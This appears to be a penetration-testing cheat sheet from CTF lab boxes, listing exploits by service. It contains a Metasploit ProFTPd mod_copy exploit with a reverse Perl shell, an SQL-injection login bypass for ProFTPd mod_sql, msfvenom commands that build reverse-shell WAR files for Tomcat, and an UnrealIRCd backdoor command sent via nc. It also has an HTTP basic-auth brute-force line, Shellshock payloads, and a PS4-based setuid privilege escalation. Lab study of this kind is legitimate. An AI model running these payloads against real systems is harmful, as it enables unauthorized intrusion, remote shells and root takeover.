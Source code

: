 # ProFTPd

## ProFTPd 1.3.5, mod_copy
	Any Linux server running Proftp version < 1.3.5 are vulnerable.
	https://raw.githubusercontent.com/t0kx/exploit-CVE-2015-3306/master/exploit.py
	https://www.exploit-db.com/exploits/36742
	https://www.exploit-db.com/exploits/36803
	use exploit/unix/ftp/proftpd_modcopy_exec
	set RHOST 192.168.6.154
	set SITEPATH /var/www/html/test
	set TARGETURI /test/
	set PAYLOAD cmd/unix/reverse_perl
	set LHOST 192.168.6.138
	run

	id


## ProFTPD 1.2.8 - 1.2.9 mod_sql
	
Boxes : Relativity

	└─$ ftp 172.16.16.128
	Connected to 172.16.16.128.
	220 Welcome to Relativity FTP (mod_sql)
	Name (172.16.16.128:kali): %') and 1=2 union select 1,1,uid,gid,homedir,shell from users; # 
	331 Password required for %').
	Password:1  <== WHY ?
	230 User %') and 1=2 union select 1,1,uid,gid,homedir,shell from users; # logged in.
	Remote system type is UNIX.
	Using binary mode to transfer files.
	ftp> ls 
	200 PORT command successful


# vsftpd

- The default location for pub ftp on CentOS : __/var/ftp/pub/__

# Tomcat

Boxes : sleepy

- Default : 
	1. _/etc/tomcat/tomcat-users.xml_
	2. _/etc/tomcat/server.xml_
- Shell
    msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.56.1 LPORT=1234 -f war > shell.war
    msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.20.128 LPORT=4444 -f war -o evil.war



# UnrealIRCd 3.2.8.1

Boxes : Relativity

	echo "AB;<command>" |nc <IRCd address> <port>

# HTTP auth basic

	# Brute force
	$ hydra -l admin  -p darkweb2017-top100.txt  a.b.c.d http-get


# Bash [v1.14 - v4.3 ]


## Shellshock bash [v1.14 - v4.3 ]

Boxes : sleepy

	env var='() { ignore this;}; echo VULN' bash -c /bin/true  
	env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
	env X=' () { }; echo hello' bash -c 'date'
	shellshocker='() { echo You are vulnerable; }' bash -c shellshocker

	curl -A " () { :; }; echo VULN " {URL}
	telnet <serveur_internet_sous_notre_controle> 8888
	# export function
	bash-4.2$ function /usr/bin/sl () { /bin/bash; }
	bash-4.2$ export -f /usr/bin/sl

## SHELLOPTS and PS4

Boxes : K2

    bash-4.2$ env -i SHELLOPTS=xtrace PS4='$(chown root:root /tmp/egg && chmod +s /tmp/egg)' /bin/sh -c '/usr/local/bin/whoisme'



# nginx

- Default path
	
	/nginx/usr/share/nginx/html/

# Wordpress

- Theme twentynineteen : /var/www/html/wordpress/wp-content/themes/twentynineteen/
